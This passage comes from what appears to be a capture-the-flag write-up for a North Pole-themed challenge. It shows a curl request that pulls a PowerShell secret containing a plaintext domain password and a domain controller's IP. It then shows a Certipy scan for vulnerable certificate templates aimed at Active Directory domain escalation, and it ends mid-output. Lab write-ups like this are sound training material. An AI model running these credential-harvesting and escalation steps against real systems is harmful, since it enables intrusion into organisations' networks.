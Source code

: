 ```
curl -s -H "Authorization: Bearer <ACCESSTOKENHERE>" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/?api-version=7.4

{"value":"Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru","id":"https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d","attributes":{"enabled":true,"created":1699564823,"updated":1699564823,"recoveryLevel":"Recoverable+Purgeable","recoverableDays":90},"tags":{}}
```
We have made a break through! We now have the Domain Controller (DC) name, IP, and a username, and password. Let's see if we can get access to the DC.<br/>
I read a bit about domain escalation techniques<br/>
[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)<br/>
[https://raxis.com/blog/ad-series-active-directory-certificate-services-adcs-misconfiguration-exploits/](https://raxis.com/blog/ad-series-active-directory-certificate-services-adcs-misconfiguration-exploits/)<br/>
and reviewed some information from a [previous challenge](./o4.md).

Using Certipy we find a vulnerable certificate template:

```hl_lines="54 110"
alabaster@ssh-server-vm:~/impacket$ certipy find -vulnerable -u elfy -dc-ip 10.0.0.53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

Password:
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20231227030304_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231227030304_Certipy.txt'
[*] Saved JSON output to '20231227030304_Certipy.json'
alabaster@ssh-server-vm:~/impacket$ cat 20231227030304_Certipy.json 
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "northpole-npdc01-CA",
      "DNS Name": "npdc01.northpole.local",
      "Certificate Subject": "CN=northpole-npdc01-CA, DC=northpole, DC=local",
      "Certificate Serial Number": "16F19836C6F26A994DA811E962FC0ABC",
      "Certificate Validity Start": "2023-12-27 01:05:15+00:00",
      "Certificate Validity End": "2028-12-27 01:15:14+00:00",
      "Web Enrollment": "Disabled",
      "User Specified SAN": "Disabled",
      "Request Disposition": "Issue",
      "Enforce Encryption for Requests": "Enabled",
      "Permissions": {
        "Owner": "NORTHPOLE.LOCAL\\Administrators",
        "Access Rights": {
          "2": [
            "NORTHPOLE.LOCAL\\Administrators",
            "NORTHPOLE.LOCAL\\Domain Admins",
```